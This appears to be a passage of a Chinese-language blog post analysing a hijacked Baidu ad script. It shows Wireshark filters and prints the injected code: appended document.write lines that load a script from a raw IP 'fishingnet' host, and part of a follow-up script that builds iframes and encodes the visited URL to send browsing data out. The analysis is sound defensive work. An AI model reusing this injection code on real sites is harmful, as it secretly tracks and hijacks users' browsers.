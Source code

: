 第三次GET没有返回，估计只是给服务器端的jsp传参，最后就是以同样的形式把我的浏览信息按照ajax\_fn的格式送给服务器了，很恶毒对不对？但这只是结果，从一开始请求
ad.js之后，一切就脱离正轨了，我们需要找到原因，就必须再往上，开启wireshark抓包，设置过滤条件为：

    http&&(ip.addr==122.114.61.38 || ip.addr==211.149.216.27)

看看结果：

![wireshark-fishing]({{site.baseurl}}/images/wireshark-fishing.png)

**baidu_c.js**是什么玩意，下载来看看：

    /*! Copyright 2015 Baidu Inc. All Rights Reserved. */
    ; (function() {
        var l = void 0,
        m = !0,
        o = null,
        s = !1;
        function v(e) {
            return function() {
                return e
            }
        }
        var E = {
            t1: +new Date,
            t2: 0,
            t3: 0,
            t4: 0
        },
        I = ["search!"],
        aa = 3,
        ma = "BAIDU_DUP2_replacement",
        na = "http://dup.baidustatic.com/painter/",
        ... //省略四千行
        })();

    var myDate = new Date();
    var tt = myDate.getFullYear() +"_"+ myDate.getMonth() +"_"+ myDate.getDate();
    document.write("<scr"+"ipt id = 'myscript' src='http://122.114.61.38/fishingnet/shtt2/baidu_h.js?"+tt+"'></scr"+"ipt>");

是个四千行左右的js脚本，开头有baidu的版权，注意最后三行，似乎是额外添加的。也就是说我本该请求一个真正的`baidu_c.js`，却被攻击者调包了。
调包之后的js直接用document.write给我添加了点内容，恩，**baidu_h.js**，下载看看：
    
	var myads = document.getElementsByName("my_adsense_kk");
	var ad_loc = "shtt2";
	var ad_src = "baidu_c";
	if(myads)
	{
		//console.log(myads);
		//alert(myads.length);
		//for(myaddiv in myads)
		//console.log(myads.length);
		for(var i = 0, l = myads.length; i < l; i++) 
		{
			//alert(myadframe.item);
			//console.log("mylog");
			//console.log(myads[i].id);
			var content="";
			murl=encodeURIComponent(window.location.href.toLowerCase());
			if(!myads[i].hasChildNodes())
			{
				iframe = document.createElement("iframe");
				iframe.setAttribute("id", "gad-iframe");
                		iframe.style.align = "center";


[githubio]: http://pannzh.github.io
[Browser-Cache-Poisoning]: http://www.eecs.berkeley.edu/~yahel/papers/Browser-Cache-Poisoning.Song.Spring10.attack-project.pdf